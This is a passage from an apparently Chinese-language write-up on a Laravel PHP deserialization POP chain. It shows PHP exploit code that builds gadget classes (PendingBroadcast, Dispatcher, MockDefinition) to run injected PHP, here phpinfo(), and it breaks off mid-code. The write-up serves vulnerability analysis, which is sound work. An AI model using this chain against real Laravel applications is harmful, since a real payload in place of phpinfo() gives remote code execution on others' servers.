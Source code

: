 `getCode()`依然可控，这个pop链就结束了。

## 构造exp

```php
<?php

namespace Illuminate\Broadcasting {
    class PendingBroadcast
    {
        protected $event;
        protected $events;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher
    {
        protected $queueResolver;

        public function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace Illuminate\Broadcasting {
    class BroadcastEvent
    {
        public $connection;

        public function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}


namespace Mockery\Generator {
    class MockDefinition
    {
        protected $config;
        protected $code = '<?php phpinfo();?>';

        public function __construct($config)
        {
            $this->config = $config;
        }
    }
}

namespace Mockery\Generator {
    class MockConfiguration
    {
        protected $name = '1234';
    }
```